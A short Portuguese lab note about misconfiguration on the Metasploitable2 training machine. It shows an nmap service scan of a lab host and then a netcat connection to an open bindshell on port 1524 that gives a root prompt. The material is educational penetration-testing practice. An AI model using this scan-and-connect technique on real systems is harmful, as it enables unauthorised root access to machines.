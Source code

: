 # Missconfiguration

Não é comum, mas o administrador pode deixar alguma 'brecha' aberta por falta de uma configuralção adequada.

Veja o exemplo do lab metasploit2:

```
nmap -sV 192.168.1.33

Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-21 13:42 -03
Nmap scan report for 192.168.1.33
Host is up (0.00021s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
...
1524/tcp open  bindshell   Metasploitable root shell
...
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:C7:CF:C6 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.21 seconds
 ```

Observamos que a porta 1524 está aberta para conexão de uma shell com user root. Se não houver autenticação para a conexão, teremos acesso a conta root e domínio sobre a máquina.

Usando um comando netcat simples:

```
─$ nc 192.168.1.33 1524                                                                          
root@metasploitable:/# 
```

Temos acesso a máquina metasploitable com o user root.
